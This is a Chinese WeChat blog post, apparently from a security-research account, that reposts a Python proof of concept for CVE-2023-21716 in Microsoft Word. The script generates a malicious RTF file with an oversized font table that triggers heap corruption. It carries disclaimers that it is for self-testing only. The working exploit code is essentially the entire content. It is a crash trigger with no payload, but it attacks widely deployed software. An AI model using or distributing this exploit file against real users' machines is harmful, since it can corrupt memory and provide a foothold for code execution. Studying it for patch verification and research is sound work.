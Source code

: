 #  POC | CVE-2023-21716 Microsoft Word 远程代码执行漏洞

程橙橙  [ 孑蝉 ](javascript:void\(0\);)

**孑蝉** ![]()

微信号 jiechan-aci

功能介绍 个人公众号，专注于安全研究，致力于高质量技术分享。

____

___发表于_

收录于合集 #漏洞 3个

​python3

# PoC for:

# Microsoft Word RTF Font Table Heap Corruption Vulnerability

#

# by Joshua J. Drake (@jduck)

#

  

  

import sys

  

# allow overriding the number of fonts

num = 32761

if len(sys.argv) > 1:

        num = int(sys.argv[1])

  

f = open("tezt.rtf", "wb")

f.write(b"{\\\rtf1{\n{\\\fonttbl")

for i in range(num):

        f.write(b"{\\\f%dA;}\n" % i)

f.write(b"}\n")

f.write(b"{\\\rtlch it didn't crash?? no calc?! BOO!!!}\n")

f.write(b"}}\n")

f.close()

  

POC仅用于安全自检，请勿用于非法用途。

  

  

本文仅供技术学习、交流、研究使用，切勿用于非法活动。造成任何直接、间接损害，皆由使用者负责，公众号及笔者不承担任何责任。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

